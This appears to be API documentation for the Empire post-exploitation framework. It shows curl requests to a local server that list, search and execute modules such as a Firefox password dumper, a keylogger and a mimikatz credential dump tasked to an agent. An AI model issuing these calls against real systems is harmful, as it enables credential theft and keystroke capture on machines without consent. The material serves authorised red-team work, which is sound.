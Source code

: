 * [Get Current Modules](#get-current-modules)
* [Get Module by Name](#get-module-by-name)
* [Search for Module](#search-for-module)
* [Execute a Module](#execute-a-module)

## Get Current Modules

### Handler

* **Handler** : GET /api/modules
* Description : Returns all current Empire modules.
* No parameters

### Example

**Request**:
```bash
curl --insecure -i https://localhost:1337/api/modules?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5
```

**Response**:
```json
{
  "modules": [
    {
      "Author": [
        "@xorrior"
      ],
      "Background": true,
      "Comments": [
        "https://github.com/xorrior/RandomPS-Scripts/blob/master/Get-FoxDump.ps1",
        "http://xakfor.net/threads/c-firefox-36-password-cookie-recovery.12192/"
      ],
      "Description": "This module will dump any saved passwords from Firefox to the console. This should work for any versionof Firefox above version 32. This will only be successful if the master password is blank or has not been set.",
      "MinPSVersion": "2",
      "Name": "collection/FoxDump",
      "NeedsAdmin": false,
      "OpsecSafe": true,
      "OutputExtension": null,
      "SaveOutput": false,
      "options": {
        "Agent": {
          "Description": "Agent to run the module on.",
          "Required": true,
          "Value": ""
        },
        "OutFile": {
          "Description": "Path to Output File",
          "Required": false,
          "Value": ""
        }
      }
    },
    ...
  ]
}
```

## Get Module by Name

### Handler

* **Handler** : GET /api/modules/MODULE_NAME
* Description : Returns the module specified by MODULE_NAME.
* No parameters

### Example

**Request**:
```bash
curl --insecure -i https://localhost:1337/api/modules/collection/keylogger?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5
```

**Response**:
```json
{
  "modules": [
    {
      "Author": [
        "@obscuresec",
        "@mattifestation",
        "@harmj0y"
      ],
      "Background": true,
      "Comments": [
        "https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1"
      ],
      "Description": "Logs keys pressed, time and the active window (when changed).",
      "MinPSVersion": "2",
      "Name": "collection/keylogger",
      "NeedsAdmin": false,
      "OpsecSafe": true,
      "OutputExtension": null,
      "options": {
        "Agent": {
          "Description": "Agent to run module on.",
          "Required": true,
          "Value": ""
        }
      }
    }
  ]
}
```

## Search for Module

### Handler

* **Handler** : POST /api/modules/search
* Description : Searches all module fields for the given term.
* Parameters (none required) :
  * term    : the term to search for (required)

### Example

**Request**:
```bash
curl --insecure -i -H "Content-Type: application/json"  https://localhost:1337/api/modules/search?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5 -d '{"term":"keylogger"}'
```

**Response**:
```json
{
  "modules": [
    {
      "Author": [
        "@obscuresec",
        "@mattifestation",
        "@harmj0y"
      ],
      "Background": true,
      "Comments": [
        "https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1"
      ],
      "Description": "Logs keys pressed, time and the active window (when changed).",
      "MinPSVersion": "2",
      "Name": "collection/keylogger",
      "NeedsAdmin": false,
      "OpsecSafe": true,
      "OutputExtension": null,
      "options": {
        "Agent": {
          "Description": "Agent to run module on.",
          "Required": true,
          "Value": ""
        }
      }
    }
  ]
}
```

## Execute a Module

### Handler

* **Handler** : POST /api/modules/MODULE_NAME
* Description : Tasks an 
* Parameters (none required) :
  * Agent    : the agent to task the module for (or all). Required.
  * *additional*    : any additional module values enumerated from module options

### Example

**Request**:
```bash
curl --insecure -i -H "Content-Type: application/json" https://localhost:1337/api/modules/credentials/mimikatz/logonpasswords?token=$TOKEN -X POST -d '{"Agent":"WTN1LHHRYHFWHXU3"}'

```

**Response**:
```json
{
  "msg": "tasked agent WTN1LHHRYHFWHXU3 to run module credentials/mimikatz/logonpasswords",
  "success": true
}
```